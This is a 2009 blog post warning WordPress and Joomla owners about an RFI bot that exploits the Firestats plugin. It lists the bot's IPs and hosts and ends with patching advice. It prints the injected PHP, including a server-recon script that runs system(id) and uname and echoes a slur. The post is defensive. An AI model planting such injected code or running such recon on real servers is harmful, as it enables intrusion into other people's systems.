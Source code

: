 ```yaml
---
title: New threat for all Joomla and WordPress installations
author: Alex
layout: post
permalink: /blog/2009/09/24/feelcomz-rfi/
categories:
  - Security
tags:
  - ajax
  - chat
  - class
  - control
  - handler
  - javascript
  - php
  - remote
  - upload
---
```

# 

There is a new BOT out there, and one of the bad ones. I have started receiving traffic from it in my servers over the past week, and after some investigation it turns out it is quite a powerful bot, and so simple to use even a kid with a computer could use it.

The bot attacks mainly Joomla and WordPress installations, the [Firestats plugin][1] for WordPress version 1.6.2 has [a known vulnerability][2] that is exploited by this bot.

 [1]: http://firestats.cc/wiki/Download
 [2]: http://www.milw0rm.com/exploits/8945

If successful, the bot will usually get your admin password and send it to a server somewhere, other versions f** your server up… it depends.

The bot is basically a top All-In-One product, that acts as a:

*   RFI Scanner
*   RFI Scan & Exploit
*   Joomla RFI Scan & Exploit
*   Milw0rm Search
*   Google bypass
*   Message Spy & Save
*   Auto Spreading

The last known spreader for the bot is the Fx29Spreadz v1.0 (Apr. 2009) which can be used from a server with a PHP Shell.

## IPs and servers:

This bot has used the following IPs and hosts (That I know of)

*   62.15.230.250
*   210.68.188.206
*   211.239.150.144
*   125.251.133.3
*   250.230.15.62.static.jazztel.es
*   buminch.org
*   www.framoss.ru

It has compromised servers in Republic of Korea, Taiwan and some other countries.

## Injections:

The bot basically tries to insert the following PHP line:

    <?php /* Fx29ID */ echo("FeeL"."CoMz"); die("FeeL"."CoMz"); /* Fx29ID */ ?>
    

Although there is another variation which inserts:

    <?php
        function ConvertBytes($number) {
        $len = strlen($number);
        if($len < 4) {
        return sprintf(”%d b”, $number); }
        if($len >= 4 &#038;&#038; $len < =6) {
        return sprintf(”%0.2f Kb”, $number/1024); }
        if($len >= 7 &#038;&#038; $len < =9) {
        return sprintf(”%0.2f Mb”, $number/1024/1024); }
        return sprintf(”%0.2f Gb”, $number/1024/1024/1024); }
    
        echo “Osirys  
    ”;
        $un = @php_uname();
        $id1 = system(id);
        $pwd1 = @getcwd();
        $free1= diskfreespace($pwd1);
        $free = ConvertBytes(diskfreespace($pwd1));
        if (!$free) {$free = 0;}
        $all1= disk_total_space($pwd1);
        $all = ConvertBytes(disk_total_space($pwd1));
        if (!$all) {$all = 0;}
        $used = ConvertBytes($all1-$free1);
        $os = @PHP_OS;
    
        echo “0sirys was here and also is a fucking gay..  
    ”;
        echo “uname -a: $un  
    ”;
        echo “os: $os  
    ”;
        echo “id: $id1  
    ”;
        echo “free: $free  
    ”;
        echo “used: $used  
    ”;
        echo “total: $all  
    ”;
        exit;
    

## Security recommendations:

If your website runs on WordPress, Joomla, Drupal, or other popular CMS you must upgrade all plugins and check for the latest version of the system!  
If you have Firestats I recommend deactivating it for some time, until a new version fixing that bug is released, and still, I would wait.  
If you have URL rewriting systems, ensure they are up-to-date, and if you built them re-check the security, and never include external files.

### Hope this helped you ![:)][3] 

 [3]: http://urbanoalvarez.es/blog/wp-includes/images/smilies/icon_smile.gif

If you found any variations and new stuff about this please comment below